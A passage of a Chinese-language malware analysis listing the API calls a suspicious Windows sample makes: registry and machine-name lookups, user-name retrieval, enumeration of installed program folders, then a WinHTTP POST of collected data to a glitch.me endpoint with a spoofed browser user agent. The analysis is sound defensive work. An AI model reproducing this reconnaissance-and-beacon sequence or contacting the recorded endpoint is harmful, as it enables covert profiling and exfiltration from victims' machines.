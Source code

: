 ```c
RegOpenKeyExW ( HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows NT\CurrentVersion", 0, KEY_READ, 0x0362eed0 )
RegQueryValueExW ( 0x000001bc, "CurrentBuild", NULL, 0x03e3f538, NULL, 0x03e3f53c )
```

然后检索网络适配器信息 

![Untitled](%E8%BA%AB%E4%BB%BD%E8%AF%81%20%E8%A1%8C%E4%B8%BA%E6%A3%80%E6%B5%8B%20f9e8ae86f1294e758bd028bbb209b844/Untitled%2020.png)

其实期间还进行了什么鬼东西的记录,类似于mysql查询

![Untitled](%E8%BA%AB%E4%BB%BD%E8%AF%81%20%E8%A1%8C%E4%B8%BA%E6%A3%80%E6%B5%8B%20f9e8ae86f1294e758bd028bbb209b844/Untitled%2021.png)

获取计算机 信息

```c
GetComputerNameW ( 0x03e2f870, 0x03e2f7f0 )
GetUserNameW ( "DESKTOP-DH78DGM", 0x03e2f7f0 )
```

查找指定目录的文件夹名字

```c
FindFirstFileExW ( "C:\Program Files\*", FindExInfoStandard, 0x012a27b8, FindExSearchNameMatch, NULL, 0 )
Adobe
Bandizip
...

FindFirstFileExW ( "C:\Program Files (x86)\*", FindExInfoStandard, 0x012bad28, FindExSearchNameMatch, NULL, 0 )
Common Files.
EverythingToolbar.
...
```

然后就是连网了

```c
WinHttpCrackUrl ( "https://internal-hot-addition.glitch.me/a427e66e3a94f85b4a8d", 60, 0, 0x03e3fb1c )
WinHttpOpen ( "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36 Edg/88.0.100.0", 
WINHTTP_ACCESS_TYPE_DEFAULT_PROXY,
 NULL, NULL,
 0 )
WinHttpConnect ( 0x012b92e0, "internal-hot-addition.glitch.me", INTERNET_DEFAULT_HTTPS_PORT, 0 )
WinHttpOpenRequest ( 0x012bfaa0, "POST", "/a427e66e3a94f85b4a8d", NULL, NULL, NULL, WINHTTP_FLAG_SECURE )
WinHttpSetOption ( 0x012bfc58, WINHTTP_OPTION_CONNECT_TIMEOUT, 0x03e3f66c, 4 )
WinHttpSendRequest ( 0x012bfc58, "Content-Type: application/x-www-form-urlencoded", 49, 0x012b2410, 2056, 2056, 0 )

WinHttpSetOption ( 0x012bfc58, WINHTTP_OPTION_SECURITY_FLAGS, 0x03e3f680, 4 )
WinHttpSendRequest ( 0x012bfc58, "Content-Type: application/x-www-form-urlencoded", 49, 0x012b2410, 2056, 2056, 0 )
WinHttpReceiveResponse ( 0x012bfc58, NULL )
WinHttpQueryDataAvailable ( 0x012bfc58, 0x03e3f688 )
WinHttpReadData ( 0x012bfc58, 0x012f75d8, 1446, 0x03e3f670 )
WinHttpQueryDataAvailable ( 0x012bfc58, 0x03e3f688 )
WinHttpReadData ( 0x012bfc58, 0x01318eb0, 0, 0x03e3f670 )

WinHttpCloseHandle (   )
WinHttpCloseHandle (   )
WinHttpCloseHandle (   )
```
